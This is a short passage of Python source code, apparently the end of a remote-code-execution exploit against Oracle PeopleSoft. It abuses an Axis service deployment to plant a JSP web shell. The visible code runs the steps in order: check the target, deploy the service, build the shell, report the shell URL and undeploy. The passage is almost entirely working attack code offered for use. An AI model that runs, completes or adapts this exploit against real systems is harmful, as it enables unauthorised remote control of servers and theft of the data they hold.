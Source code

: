 ```

        response = self.get(pivot_url)

        if response.status_code != 200:
            raise RuntimeError('Unable to access JSP shell')

        o('+', 'Shell URL: ' + self.url + pivot_url)


class PeopleSoftRCE(AxisDeploy):
    def __init__(self, url):
        super().__init__(url)


def o(s, message):
    if colorama:
        c = COLORS[s]
        s = colorama.Style.BRIGHT + COLORS[s] + '|' + colorama.Style.RESET_ALL
    print('%s %s' % (s, message))


x = PeopleSoftRCE(URL)

try:
    x.check_all()
    x.service_deploy()
    x.build_shell()
except RuntimeError as e:
    o('-', e)
finally:
    x.service_undeploy()
```
